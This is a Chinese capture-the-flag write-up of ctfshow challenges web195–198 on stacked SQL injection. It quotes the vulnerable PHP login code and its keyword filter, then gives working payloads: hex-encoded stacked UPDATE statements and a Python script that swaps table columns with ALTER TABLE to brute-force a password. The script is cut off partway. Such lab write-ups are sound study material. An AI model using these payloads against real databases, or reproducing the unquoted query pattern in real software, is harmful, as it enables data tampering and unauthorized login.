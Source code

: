 与上一题一样

## web195

堆叠注入

```
//拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
```

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }
  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

```
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";
```

##    web196

```
0;select(1);
1
```

## web197~198

堆叠注入

通过把密码列与id互换之后爆破密码

```python
# @Author:Y4tacker
import requests

url = "http://b126bc7c-2b32-461d-9520-30d5baf7a152.chall.ctf.show/api/"
for i in range(100):
    if i == 0:
        data = {
            'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
                        'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
                        'varchar(255);',
            'password': f'{i}'
        }
```